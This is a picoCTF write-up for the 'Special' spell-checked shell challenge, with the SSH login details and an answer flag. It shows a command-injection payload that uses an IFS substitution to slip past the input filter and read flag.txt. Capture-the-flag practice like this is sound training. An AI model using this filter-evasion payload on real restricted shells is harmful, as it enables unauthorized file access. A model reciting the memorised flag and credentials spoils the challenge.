 
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.`ssh -p 57295 ctf-player@saturn.picoctf.net`The password is `483e80d4`


Experiment with different shell syntax



**Solución 1**

```

ivanesco-picoctf@webshell:~$ ssh -p 57295 ctf-player@saturn.picoctf.net
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sat Feb 22 04:19:37 2025 from 127.0.0.1
Special$ $(IFS=];b=cat]blargh/flag.txt;$b)
$(IFS=];b=cat]blargh/flag.txt;$b) 
sh: 1: picoCTF{5p311ch3ck_15_7h3_w0r57_b741d1b1}: not found


```



## Respuesta: **picoCTF{5p311ch3ck_15_7h3_w0r57_b741d1b1}**